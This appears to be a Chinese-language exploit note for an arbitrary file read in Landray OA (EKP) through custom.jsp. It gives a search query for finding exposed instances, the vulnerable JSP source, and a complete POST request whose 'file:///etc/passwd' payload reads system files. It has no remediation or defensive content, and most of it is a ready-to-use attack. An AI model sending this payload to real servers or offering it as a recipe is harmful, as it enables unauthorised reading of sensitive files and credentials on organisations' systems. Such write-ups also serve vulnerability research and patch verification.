

# 蓝凌OA custom.jsp 任意文件读取漏洞

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

出现漏洞的文件为 custom.jsp

```plain
<%@page import="com.landray.kmss.util.ResourceUtil"%>
<%@page import="net.sf.json.JSONArray"%>
<%@page import="net.sf.json.JSONObject"%>
<%@ page language="java" pageEncoding="UTF-8"%>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core"%>
<%
 JSONObject vara =
JSONObject.fromObject(request.getParameter("var"));
 JSONObject body = JSONObject.fromObject(vara.get("body"));
%>
<c:import url='<%=body.getString("file") %>'>
 <c:param name="var" value="${ param['var'] }"></c:param>
</c:import>
```

请求包为

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"file:///etc/passwd"}}
```

